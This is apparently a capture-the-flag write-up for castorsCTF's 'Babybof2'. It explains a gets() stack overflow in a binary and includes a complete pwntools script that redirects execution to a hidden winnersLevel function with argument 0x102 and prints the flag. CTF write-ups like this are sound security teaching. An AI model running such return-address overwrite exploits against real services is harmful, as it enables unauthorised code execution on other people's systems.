 ## Babybof2
We get a binary file called`winner` and a service to connect to.
When running the program it asks for which floor the winners table is at. 
After opening up the program in IDA, we quickly find an unused function called `winnersLevel`. The function checks if the argument of this function is either one of two integers (258 (0x102) or 386 (0x182)). If the number is correct it prints the flag, or else it prints an info message that the badge number is not correct. We can overflow the input buffer using gets and overwrite the return address with the address of the `winnersLevel` function. We also need to send in the correct argument to this function to get the flag.

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('winners')
host = args.HOST or 'chals20.cybercastors.com'
port = int(args.PORT or 14434)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit --- #
io = start()

winners_addr = exe.symbols["winnersLevel"] # Address of the winnersLevel function
p = cyclic(cyclic_find(0x61616174)) # Send input of cyclic 100 to program to find the offset where we can write a new return address.
p+= p32(winners_addr)
p+= b'a'*4
p+= p32(0x102) # Send in the correct integer value the function expects to print the flag

if args.LOCAL:
    io.sendlineafter('is the table at: \n', p)
else:
    io.sendline(p) # Some issues with the remote service, se we need to send the exploit right away and not wait for any prompt.
    
io.interactive()
```
The flag is: `castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}`
